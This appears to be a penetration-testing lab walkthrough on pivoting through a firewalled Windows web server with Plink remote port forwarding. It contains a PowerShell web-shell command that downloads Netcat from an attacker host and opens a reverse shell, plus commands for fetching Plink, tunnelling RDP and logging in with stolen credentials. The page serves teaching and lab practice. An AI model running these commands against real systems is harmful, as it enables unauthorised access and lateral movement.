



---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Plink

Administrators may choose to remove OpenSSH from their Windows installations. This means, despite it being bundled with Windows, an attacker is not guaranteed to stumble across an OpenSSH client.&#x20;

Nevertheless, network administrators still need remote administration tools. Most networks have SSH servers running somewhere, and administrators need tools to connect to these servers from Windows hosts. Before OpenSSH was so readily available on Windows, most network administrators' tools of choice were [PuTTY](https://www.chiark.greenend.org.uk/\~sgtatham/putty/latest.html) and its command-line-only counterpart, [Plink](https://tartarus.org/\~simon/putty-snapshots/htmldoc/Chapter7.html).

One of the benefits of using tools that are popular with network administrators is that they will rarely be flagged by traditional antivirus software. This makes them appealing to attackers, since using them is relatively covert compared to more security-adjacent tools with similar functionality.

The Plink documentation explains that much of the functionality of OpenSSH has been built into Plink. One notable exception is that Plink _does not offer dynamic remote port forwarding_.

## Plink Executable

The [windows-binaries](https://www.kali.org/tools/windows-binaries/) Kali tool can be installed to save some useful pre-compiled Windows binaries (`including plink.exe`) onto an attacker's machine. After installation the location of the binary can be found with the find command:

```bash
find / -name plink.exe 2>/dev/null
```

&#x20;This can be transferred to a victim by many means, the easiest of which is often hosting it on a web server and using a shell connection to download it to a victim machine.

## Example

This example will continue to leverage a network structure like the one seen [earlier](ssh.exe.md#example). The perimeter machine is a Windows box called `MULTISERVER03`. The difference in this example is that the machine is hosting a web server and is behind a firewall that only allows inbound access to port 80. All outbound traffic is permitted:

<figure><figcaption><p>New network configuration</p></figcaption></figure>

For this example the machine has been breached by the attacker and a web shell was dropped at `http://MULTISERVER03/umbraco/forms.aspx`. This shell allows the attacker to run commands as the `iis apppool\defaultapppool` user.

### Reverse Shell

The attacker can use this web shell to get a more stable reverse shell by hosting a copy of Netcat on their web server and downloading it to the victim machine. The attacker can place the following command into the web shell prompt to first download then execute Netcat:


```
powershell wget -Uri http://192.168.45.159:8888/tmp/nc.exe -OutFile C:\Windows\Temp\nc.exe; C:\Windows\Temp\nc.exe -e cmd.exe 192.168.45.159 4446
```


* The attacker must have a listener set up on port `4446` prior to running this command

### Using Plink

#### Getting Plink

Once the reverse shell is opened, the attacker can use the same `powershell wget...` command to download `plink.exe`:


```
powershell wget -Uri http://192.168.45.159:8888/Windows/Exe/Networking/plink.exe -OutFile C:\Windows\Temp\plink.exe
```


#### Remote Port Forward

Once Plink is installed, it can be used to set up a remote port forward with the following command structure:


```
plink.exe -ssh -l kali -pw password -N -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.159
```


* `-ssh` tells Plink to use SSH
* `-l` specifies the SSH username
* `-pw` specifies the SSH password
* `-N` prevents a shell from opening leaving just a tunnel (like `ssh`)
* `-R` sets the remote connection
  * The listener is set in the following order listen\_ip:listen\_port:host:port
  * In this case the remote machine (`192.168.45.149`) will listen at `127.0.0.1:9833` and the machine where the command is run will listen on `127.0.0.13389`

Similar to ssh commands this does not return output. It simply creates a connection listening in the shell:

```bash
C:\windows\system32\inetsrv>C:\Windows\Temp\plink.exe -ssh -l remote-ssh -pw password -N -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.159
C:\Windows\Temp\plink.exe -ssh -l remote-ssh -pw password -N -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.159
The host key is not cached for this server:
  192.168.45.159 (port 22)
You have no guarantee that the server is the computer you
think it is.
The server's ssh-ed25519 key fingerprint is:
  ssh-ed25519 255 SHA256:o5shZoLWda04JZPef/6+e/i5htXKeP8tf6w3u4p369c
If you trust this host, enter "y" to add the key to Plink's
cache and carry on connecting.
If you want to carry on connecting just once, without adding
the key to the cache, enter "n".
If you do not trust this host, press Return to abandon the
connection.
Store key in cache? (y/n, Return cancels connection, i for more info) y
Using username "remote-ssh".

```

Rather than forwarding to a remote address as is usually expected, the command above actually creates listeners on the loopback interfaces of the remote and local machines. This creates an SSH tunnel between them that looks like this:

<figure><figcaption><p>Loopbacks create tunnel through firewall</p></figcaption></figure>

It is possible to confirm the listener on the attacker's machine with the `ss` command:

```
kali@kali:~$ ss -ntpl
State        Recv-Q       Send-Q              Local Address:Port               Peer Address:Port       Process
LISTEN       0            128                       0.0.0.0:22                      0.0.0.0:*
LISTEN       0            128                     127.0.0.1:9833                    0.0.0.0:*
LISTEN       0            128                          [::]:22                         [::]:*
```

At this point, `MULTISERVER03` can be accessed by sending traffic through the tunnel listening on the attacker's machine at `127.0.0.1:9833`. For example RDP access could be configured using the `rdp_admin:P@ssw0rd!` credentials compromised in [this example](../../simple-port-forwarding-scenario.md#cracking-the-hash). To use this tunnel with Remmina RDP client, configure the access as shown here:

<figure><figcaption></figcaption></figure>

Alternatively, [`xfreerdp`](https://www.freerdp.com/) could be used with the command:

```bash
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833
```
